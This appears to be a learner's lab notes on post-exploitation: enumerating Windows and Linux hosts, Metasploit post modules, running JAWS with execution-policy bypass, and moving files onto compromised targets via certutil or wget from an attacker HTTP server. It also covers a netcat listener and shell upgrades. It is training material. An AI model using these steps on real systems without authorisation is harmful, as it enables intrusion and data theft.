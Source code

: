 # Post-Exploitation
## Windows Local Enumeration

### Enumerating System information
What are we looking for:
        1. Hostname = `hostname`, `systeminfo`
        2. OS name = `systeminfo`
        3. OS Build & Service Pack(Windows 7 SP1 7600) = `systeminfo`
        4. OS Architecture(x64/x86) = `systeminfo`
        5. Installed updates/Hotfixes = `wmic qfe get Caption,Description,HotFixID,InstalledOn`, `systeminfo`
HttpFileServer 2.3 = rejetto, searchsploit rejetto
After gaining a reverse shell: `getuid`

### Enumerating Users & Groups
What are we looking for:
1. Current user & priveleges = `getuid`, `getprivs`,`whoami`
2. Additional user information = `whoami /priv`, `net user user_to_look_into`
3. other users on the system = `query user`, `net users`
4. Groups = `net localgroup`
5. Members of the built-in administrator group = `net localgroup administrators`
   
msfconsole module for logged on and previously logged on users:
1. background previous session(CTRL+z): `search logged_on`
2. `use 0` (`post/windows/gather/enum_logged_on_users`)
3.  `set SESSION ID`
4.  `run`
    
### Enumerate Network Information
What are we looking for:
1. Current IP address & network adapter = `ipconfig`, `ipconfig /all`
2. Internal networks = `arp -a`, `ipconfig /all`
3. TCP/UDP services running and their respective ports = `netstat -ano`
4. Other hosts on the network = ``
5. Routing Table = ``
6. Windows Firewall state = `netsh advfirewall firewall`,`netsh advfirewall firewall show allprofiles` `netsh firewall show state`

### Enumerating Processes & Services
What are we lookin for:
1. Running processes & services = `ps`, `tasklist /SVC`
2. Services = `net start`, 
3. Identify Process = `pgrep process`, migrate to:`migrate process`
4. Scheduled tasks = `wmic service list brief`

 ### Automating Windows Local Enumeration
 JAWS: https://github.com/411Hall/JAWS
 1. Save Raw file on vm and copy content: `CTRL + SHIFt + ALT` to open clipboard, and paste into empty file, store it on Desktop --> filename: jaws-enum.ps1
 1. msfconsole Session: `sessions 1`(choose session)
 2. On victim machine go to temp: `cd C:\\`, if not exist `mkdir Temp` and cd in to it.
 3. Upload file: `upload /root/Desktop/jaws-enum.ps1`
 4. Open shell session & running file: `shell` -> `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`
 5. Terminate channel and download to attacker pc: Terminate:`CTRL+c`, `download JAWS-Enum.txt`

## Linux Local Enumeration 
### Enumerating System information
*Target port and exploit: ftp port 21 , vsftpd 2.3.4*
*spawn terminal`/bin/bash -i`*
Upgrade to meterpreter session: background session `CTRL+z`, `sessions -u 1`, 
What are we looking for:
1. Hostname =  `hostname`
2. OS = `sysinfo`
3. Distribution & distribution release version = `cat /etc/*release`
4. Kernel version & architecture = `uname -a`, kernel :`uname r`
5. CPU information = `lscpu`
6. Disk information & mounted drives = `df -h`
7.  Installed  Packages & updates/Hotfixes = `dpkg -l`


### Enumerating Users & Groups
What are we looking for:
1. Current user & priveleges = `getuid`, `whoami`
2. Additional user information = ``
3. other users on the system = `cat /etc/passwd`
4. last logged in: `lastlog`
5. Groups = `groups`
6. Members of the built-in administrator group = ``

### Enumerate Network Information
1. Current IP address & network adapter = meterpreter:`ifconfig`, /bin/bash -i:
2. Internal networks = ``
3. TCP/UDP services running and their respective ports = meterpreter:`netstat`, /bin/bash -i:
4. Other hosts on the network =  /bin/bash -i: `ip a s`
5. route = meterpreter:`route`, /bin/bash -i:

### Enumerating Processes & Services & CRON jobs
What are we lookin for:
1. Running processes ID's & services = `ps`, `top`
2. cron jobs(scheduled tasks) = `crontab -l`, `ls -al /etc/cron*`

### Autamating Linux enumeration
1. in msfconsole `search enum_configs`
2. msfconsole: `search enum_network`
3. msfconsole: `search enum_system`


## File Transfer
1. Setting up Python server
   1. python2: `python -m SimpleHTTPServer 80`
   2. python3: `python3 -m http.server 80`
2. Transferring files to Windows targets
   1. exploiting rejetto
   2. set up netcat: `nc -nvlp 1234`
   3. net tab, where netcat.exe(nc.exe) is: `cd /usr/share/windows-binaries` -> `python3 -m http.server 80`
   4. lunch exploit
   5. On targtet system: `cd C:\\` -> go to temp or create folder `mkdir Temp` -> `cd Temp`
   6. Transfer file: `certutil -urlcache -f http://10.10.x.x/file_you_want_to_transfer.exe name_your_file.exe` . !!IMPORTANT!! be in the directory where the file yoou want to transfer is located
3. Transferring files to Linux targets
   1. Target system, go to /tmp
   2. set up python server(see windows)
   3. Download file: `wget http://10.10.x.x/file_you_want_to_transfer.php`

## Upgrading non-interactive shells
- `/bin/bash -i`
- Display list of shells: `cat /etc/shells`
- Check if python is installed: `python --version`
      1. Python2(python3 ?): `python -c 'import pty; pty.spawn("/bin/bash")'`